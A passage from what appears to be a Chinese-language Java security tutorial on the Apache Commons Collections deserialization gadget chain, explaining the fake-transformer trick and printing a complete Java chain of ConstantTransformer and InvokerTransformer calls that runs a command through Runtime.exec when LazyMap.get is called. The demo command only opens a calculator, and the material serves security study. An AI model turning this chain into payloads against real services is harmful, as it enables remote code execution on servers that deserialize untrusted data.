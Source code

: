 这里构造对象时，作者在创建了一个新的`Transformer[]`对象传入，而不是直接传入所构造的`transformers`调用链。**目的是为了避免本地调试时触发命令执行**
> P牛在《Java安全漫谈》中也有相应的解释：
> 为了避免本地调试时触发命令执⾏，我构造 LazyMap 的时候先⽤了⼀个⼈畜⽆害的 fakeTransformers 对象，等最后要⽣成 Payload 的时候，再把真正的 transformers 替换进去。

如果直接传入`transformers`，并调用`LazyMap#get()`一个不存在的`key`。这样运行后就会直接触发恶意代码，弹出计算器。示例如下：

```java
package deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class TestCC {
    public static void main(String[] args) throws Exception {
        
        // final Transformer transformerChain = new ChainedTransformer(
        //     new Transformer[]{ new ConstantTransformer(1) }
        // );
        
        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer(
                "getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] { Object.class, Object[].class },
                new Object[] { null, new Object[0] }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] { String.class },
                new String[] { "open -a Calculator" }
            ),
            new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        lazyMap.get("test");
    }
}

```
